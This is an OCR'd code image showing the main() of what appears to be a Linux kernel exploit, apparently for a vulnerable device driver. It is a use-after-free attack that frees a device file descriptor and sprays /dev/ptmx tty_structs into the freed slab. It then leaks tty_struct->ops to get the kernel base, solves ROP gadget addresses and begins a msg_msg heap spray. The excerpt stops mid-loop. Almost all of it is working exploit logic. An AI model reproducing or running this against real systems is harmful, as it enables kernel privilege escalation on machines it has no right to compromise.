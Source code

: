 ```c
int main(int argc, char *argv[]) {
    int fd1;
    int fd2;
    int fd3;
    int fd4;
    int fd5;
    int fd6;

    info("Saving user space state...");
    save_state();

    info("Freeing fd1...");
    fd1 = open_device(DEV, O_RDWR);
    fd2 = open(DEV, O_RDWR);
    close(fd1);

    // Allocate '/dev/ptmx' structs until we allocate one in our free'd slab
    info("Spraying tty_structs...");
    size_t p_remain = PTMX_SPRAY;
    while (p_remain--) {
        alloc_ptmx();
        printf("    >> tty_struct(s) alloc'd: %lu\n", PTMX_SPRAY - p_remain);

        // Check to see if we found one of our tty_structs
        if (found_ptmx(fd2)) {
            break;
        }

        if (p_remain == 0) { err("Failed to find tty_struct"); }
    }

    info("Leaking tty_struct->ops...");
    base = leak_ops(fd2);
    info("Kernel base: 0x%lx", base);

    // Clean up open fds
    info("Cleaning up our tty_structs...");
    for (size_t i = 0; i < num_ptmx; i++) {
        close(open_ptmx[i]);
        open_ptmx[i] = 0;
    }
    num_ptmx = 0;

    // Solve the gadget addresses now that we have base
    info("Solving gadget addresses");
    solve_gadgets();

    // Create a hole for a msg_msg
    info("Freeing fd3...");
    fd3 = open_device(DEV, O_RDWR);
    fd4 = open_device(DEV, O_RDWR);
    close(fd3);

    // Allocate msg_msg structs until we allocate one in our free'd slab
    size_t q_remain = NUM_QUEUE;
    size_t fails = 0;
    while (q_remain--) {
        // Initialize a message queue for spraying msg_msg structs
        init_msg_q();
        printf("    >> msg_msg queue(s) initialized: %lu\n",
            NUM_QUEUE - q_remain);
        
        // Spray messages for this queue
```